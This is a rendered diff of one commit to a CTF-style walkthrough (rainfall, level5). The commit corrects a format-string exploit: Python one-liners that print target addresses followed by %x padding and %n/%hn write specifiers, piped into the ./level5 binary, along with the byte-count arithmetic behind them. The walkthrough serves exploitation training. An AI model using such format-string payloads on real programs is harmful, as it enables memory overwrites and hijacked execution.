

Before and after one commit to hugorclt/rainfall, a Markdown page: level5/walkthrough.md, 2 parts joined by grey strips. Rendered like a GitHub page.

Commit message:
correction payload hier + clean

````diff
--- a/level5/walkthrough.md
+++ b/level5/walkthrough.md
@@ -74,7 +74,8 @@ exploit += "%5$hn"
 ```
 
 ```bash
-(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';cat) | ./level5
+(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%33948x" + "%4$n" + "%33632x" + "%5$n")';cat) | ./level5
+
 run < <(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';)
 ```
 
@@ -119,7 +121,7 @@ Let's start with the high order bytes :
 It'll be 2052 - 8 = 2044, because we already wrote 8 bytes, the two 4 bytes addresses
 
 Then the low order bytes :
-It'ill be 33956 - 2052 = 31904 --> 33632 in uint with overflow
+It'ill be 33956 - 2052 = 31904
 
 No we can construct the exploit
 It'ill be : \x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
````
Also changed, not shown: other parts of level5/walkthrough.md (+1 -0 lines).
